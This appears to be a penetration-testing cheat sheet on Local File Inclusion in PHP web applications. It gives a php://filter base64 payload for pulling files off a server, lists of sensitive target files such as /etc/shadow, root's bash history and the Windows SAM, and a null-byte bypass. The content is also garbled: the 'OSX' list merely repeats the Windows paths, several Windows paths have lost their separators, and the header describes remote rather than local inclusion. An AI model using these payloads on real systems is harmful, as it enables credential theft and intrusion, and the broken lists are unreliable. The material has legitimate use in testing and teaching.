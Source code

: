 ```yaml
---
description: >-
  A remote file inclusion vulnerability allows an attacker to remotely execute a
  script on the target machine even if it's not available locally.
---
```


# Local File Inclusion (LFI)

### Example

If we want to get a file then it is best to base64 encode it. This will ensure that we can exfiltrate files rather than have Apache read the file. This can be accomplished with the following command:

`php://filter/convert.base64-encode/resource=[FILE]`

The sections following lists common but interesting files to look at when testing for Local File Inclusion:

### Linux

```
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root
```

### Windows

```
%SYSTEMROOT%repairsystem
%SYSTEMROOT%repairSAM
%WINDIR%win.ini
%SYSTEMDRIVE%boot.ini
%WINDIR%Panthersysprep.inf
%WINDIR%system32configAppEvent.Evt
```

### OSX

```
%SYSTEMROOT%repairsystem
%SYSTEMROOT%repairSAM
%SYSTEMROOT%repairSAM
%WINDIR%win.ini
%SYSTEMDRIVE%boot.ini
%WINDIR%Panthersysprep.inf
%WINDIR%system32configAppEvent.Evt
```

### Additional Notes

* Sometimes during Local File Inclusion, the web server appends something like ‘.php’ or '.config' to the included file. For example, including ‘/etc/passwd’ gets rendered as ‘/etc/passwd.php’. This occurs when the include function uses a parameter like _?page_ and concatenates the .php extension to the file. In versions of PHP below 5.3, ending the URL with a null byte (%00) would cause the interpreter to stop reading, which would allow the attacker to include their intended page. Additionally, this can be observed if you're host a SimpleHTTPServer with Python.

### References

* [File Inclusion Vulnerabilities - Offensive Security](https://www.offensive-security.com/metasploit-unleashed/file-inclusion-vulnerabilities/)
